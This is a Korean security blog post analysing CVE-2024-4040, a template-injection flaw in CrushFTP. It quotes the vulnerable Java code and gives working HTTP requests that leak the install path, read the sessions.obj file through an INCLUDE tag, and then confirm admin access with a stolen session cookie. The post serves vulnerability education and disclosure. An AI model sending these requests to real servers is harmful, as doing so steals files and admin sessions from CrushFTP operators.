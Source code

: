 ```yaml
---
title: "[하루한줄] CVE-2024-4040: CrushFTP의 SSTI로 인한 LFI 취약점"
author: j0ker
tags: [CVE-2024-4040, CrushFTP, SSTI, LFI, Cobalt Strike, j0ker]
categories: [1day1line]
date: 2024-04-27 18:00:00
cc: true
index_img: /img/1day1line.png
---
```

## Title

CVE-2024-4040: CrushFTP의 SSTI로 인한 LFI 취약점

## URL

- https://attackerkb.com/topics/20oYjlmfXa/cve-2024-4040/rapid7-analysis

## Target

- All legacy CrushFTP 9 installations
- CrushFTP 10.0 before 10.7.1
- CrushFTP 11.0 before 11.1.0

## Explain

CVE-2024-4040은 CrushFTP는 SSTI(Server Side Template Injection) 취약점으로 파일 읽어 관리자 세션을 탈취할 수 있는 취약점입니다.

CrushFTP API에 요청을 보낼 때 인자에 {hostname} 같은 값을 넣어 보내면 템플링 엔진이 해당 값을 실제 값으로 바꾸는 작업을 진행하게 됩니다.

```java
   public static String change_vars_to_values_static(String in_str, Properties user, Properties user_info, SessionCrush the_session) {
        try {
            if (in_str.indexOf(37) < 0 && in_str.indexOf(123) < 0 && in_str.indexOf(125) < 0 && in_str.indexOf(60) < 0) {
                return in_str;
            }
            String r1 = "%"; // Search for percent symbol delimiters, called r1 and r2
            String r2 = "%";
            while (r < 2) {
                String user_key2;
                String user_key;
                String key;
                int loc;
                String key2;
[..] // A large number of possible dynamic values, such as “hostname” and “heap_dump”, can be templated
                if (in_str.indexOf(String.valueOf(r1) + "hostname" + r2) >= 0) {
                    in_str = Common.replace_str(in_str, String.valueOf(r1) + "hostname" + r2, hostname);
                }
                if (in_str.indexOf(String.valueOf(r1) + "server_time_date" + r2) >= 0) {
                    in_str = Common.replace_str(in_str, String.valueOf(r1) + "server_time_date" + r2, new Date().toString());
                }
                if (in_str.indexOf(String.valueOf(r1) + "login_number" + r2) >= 0) {
                    in_str = Common.replace_str(in_str, String.valueOf(r1) + "login_number" + r2, ServerStatus.uSG(user_info, "user_number"));
                }
[..] // Though many options are possible, we’ll jump ahead to the most promising choices for exploitation
                if (in_str.indexOf(String.valueOf(r1) + "ban" + r2) >= 0) {
                    in_str = Common.replace_str(in_str, String.valueOf(r1) + "ban" + r2, "");
                    thisObj.ban(user_info, 0, "msg variable");
                }
                if (in_str.indexOf(String.valueOf(r1) + "kick" + r2) >= 0) {
                    in_str = Common.replace_str(in_str, String.valueOf(r1) + "kick" + r2, "");
                    thisObj.passive_kick(user_info);
                }
                if (in_str.indexOf("<SPACE>") >= 0) {
                    in_str = Common.space_encode(in_str);
                }
                if (in_str.indexOf("<FREESPACE>") >= 0) {
                    in_str = Common.free_space(in_str);
                }
                if (in_str.indexOf("<URL>") >= 0) {
                    in_str = Common.url_encoder(in_str);
                }
                if (in_str.indexOf("<REVERSE_IP>") >= 0) {
                    in_str = Common.reverse_ip(in_str);
                }
                if (in_str.indexOf("<SOUND>") >= 0) {
                    in_str = ServerStatus.thisObj.common_code.play_sound(in_str);
                }
                if (in_str.indexOf("<LIST>") >= 0) {
                    in_str = thisObj.get_dir_list(in_str, the_session);
                }
                if (in_str.indexOf("<INCLUDE>") >= 0) {
                    in_str = thisObj.do_include_file_command(in_str);
                }
                r1 = "{"; // In addition to percent signs, the application also searches for curly brackets
                r2 = "}";
                ++r;
            }
```

이와 같이 위 코드 마지막에 있는 <INCLUDE>를 활용하면 do_include_file_command 메소드를 통해 파일을 읽어올 수 있습니다. 

```java
    public String do_include_file_command(String in_str) {
        try {
            String file_name = in_str.substring(in_str.indexOf("<INCLUDE>") + 9, in_str.indexOf("</INCLUDE>"));
            RandomAccessFile includer = new RandomAccessFile(new File_S(file_name), "r");
            byte[] temp_array = new byte[(int)includer.length()];
            includer.read(temp_array);
            includer.close();
            String include_data = String.valueOf(new String(temp_array)) + this.CRLF;
            return Common.replace_str(in_str, "<INCLUDE>" + file_name + "</INCLUDE>", include_data);
        }
        catch (Exception exception) {
            return in_str;
        }
    }
```

따라서 먼저 현재 CrushFTP의 세션 파일을 읽어온 다음, 관리자 세션으로 재접속하면 관리자 권한을 획득할 수 있습니다. 그렇다면 먼저 세션 파일을 읽어와야 하는데, 세션 파일은 CrushFTP가 설치된 폴더에 저장됩니다. {working_dir}을 활용하면 설치 경로를 읽어올 수 있습니다.

```
POST /WebInterface/function/?command=zip&c2f=vndQ&path={working_dir}&names=/bbb HTTP/1.1
Host: localhost
Cookie: CrushAuth=1713821078876_GAZtOk6j6gT7gHjv0pQUygUGixvndQ; c2f=vndQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

```
HTTP/1.1 200 OK
Cache-Control: no-store
Pragma: no-cache
Content-Type: text/xml;charset=utf-8
Date: Mon, 22 Apr 2024 22:24:46 GMT
Server: CrushFTP HTTP Server
P3P: policyref="/WebInterface/w3c/p3p.xml", CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"
Connection: close
Content-Length: 241

<?xml version="1.0" encoding="UTF-8"?> 

<commandResult><response>You need download, upload permissions to zip a file:/bbb
You need upload permissions to zip a file:/home/researcher/CrushFTP/CrushFTP10/
</response></commandResult>
```

이제 아래와 같은 요청을 보내 세션 파일을 읽어올 수 있습니다.

```
POST /WebInterface/function/?command=zip&c2f=vndQ&path=<INCLUDE>/home/researcher/CrushFTP/CrushFTP10/sessions.obj</INCLUDE>&names=/bbb HTTP/1.1
Host: localhost
Cookie: CrushAuth=1713821078876_GAZtOk6j6gT7gHjv0pQUygUGixvndQ; c2f=vndQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

반환된 응답에서 세션에서 관리자 세션을 찾아 아래와 같이 명령어를 실행해보면 정상적으로 관리자 권한을 획득한 것을 확인할 수 있습니다.

```bash
$ curl 'https://crushftp/WebInterface/function/?command=getUsername&c2f=3dnZ' -H 'Cookie: CrushAuth=1713879298772_dZZeNbE2b7i6bAmGqqjXottYBG3dnZ; currentAuth=3dnZ' -k
<?xml version="1.0" encoding="UTF-8"?> 
<loginResult><response>success</response><username>crushadmin</username></loginResult>
```

해당 취약점은 CVSS 9.8점을 받았으며 현재 실제 공격에 사용하고 있다고 합니다.

## Reference

- https://www.cisa.gov/known-exploited-vulnerabilities-catalog
- https://nvd.nist.gov/vuln/detail/CVE-2024-4040